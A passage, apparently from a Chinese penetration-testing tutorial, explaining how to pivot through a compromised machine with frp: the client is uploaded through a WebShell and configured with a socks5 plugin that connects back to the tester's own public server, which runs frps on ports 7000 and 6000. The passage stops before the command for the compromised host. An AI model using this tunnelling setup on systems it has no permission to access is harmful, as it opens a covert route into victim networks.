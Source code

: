 很简单，frpc是客户端，frps是服务端  
![frpc上传.png](%E6%B8%97%E9%80%8F%E5%BF%85%E5%A4%87%EF%BC%9A%E4%BD%BF%E7%94%A8Proxifier%E7%8E%A9%E8%BD%AC%E4%BB%A3%E7%90%86.assets/1825149906.png "frpc上传.png")

配置`frpc.ini`:

```
\# frpc.ini
\[common\]
server\_addr = 自己公网服务器地址
server\_port = 7000

\[frp\]
type = tcp
remote\_port = 6000
plugin = socks5    //这一句必须要加，不然代理连不上
```

客户端通过WebShell上传，frps上传到自己的公网服务器上，配置`frps.ini`:

```
\# frps.ini
\[common\]
bind\_port = 7000
```

接下来要在自己的公网服务器上开6000和7000这两个端口，并执行命令进行监听：

```
./frps -c ./frps.ini
```

再在上线的那台机器上执行命令：
